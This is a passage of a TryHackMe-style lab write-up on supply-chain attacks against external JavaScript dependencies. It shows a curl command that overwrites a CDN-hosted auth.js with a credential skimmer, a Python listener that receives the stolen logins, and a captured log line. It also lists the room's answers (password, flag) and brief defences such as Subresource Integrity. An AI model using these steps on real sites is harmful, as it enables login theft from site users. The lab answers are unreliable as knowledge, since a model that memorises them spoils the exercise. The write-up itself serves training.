 Let's overwrite the existing auth.js file with our embedded skimmer:

```bash
curl http://cdn.tryhackme.loc:9444/libraries/auth.js --upload-file auth.js 
```

We could host an entire server to receive the keystrokes, but let's keep it simple with a Python server:

```bash
python 3 -m http.server 7070
```

We can test if our skimmer is working by using the website ourselves. Complete the form and press enter after typing in your password, and you should intercept credentials:

```bash
10.10.62.64 - - [10/Aug/2022 10:59:28] "GET /item?user=test&pass=test HTTP/1.1" 404 -
```

If this works, we now just need to wait for someone to authenticate! Give it 5 minutes, and you should intercept credentials from an actual user! Once you have intercepted the user's credentials, use them to authenticate to the website and recover the flag!
Defences

It is difficult to defend against the attacks staged against external dependencies since there are so many and new vulnerabilities are found daily. However, there are certain things that we can do to limit the risk:

- Make sure to update and patch dependencies on a regular basis. This would include emergency patching of dependencies if a sufficiently serious vulnerability was discovered.
- Dependencies can sometimes be copied and hosted internally. This will reduce the attack surface.
- Sub-resource Integrity can be used to prevent tampered JS libraries from loading. In the HTML include, the hash of the JS library can be added. Modern web browsers will verify the hash of the JS library, and if it does not match, the library will not be loaded.

### Which Advance Persistent Threat group is notorious for their supply chain attacks?
MageCart

### What is the password of the intercepted credentials?
supersecretpassword12345@

### What is the value of the flag you receive on the website after authenticating with the intercepted credentials?
THM{Supply.Chain.Attacks.Are.Super.Powerful}

# Task 5 : Securing Internal Dependencies

## Internal Dependencies and Security Concerns

**Internal dependencies** are libraries or SDKs that have been developed and maintained within your organization. Since your team is responsible for both the development and management of these dependencies, it is essential to ensure that they are secure. As mentioned earlier, the main purpose of creating internal dependencies is to avoid reinventing the wheel each time an application is developed. They help standardize processes, such as authentication, registration, and communication, across different applications within the organization.
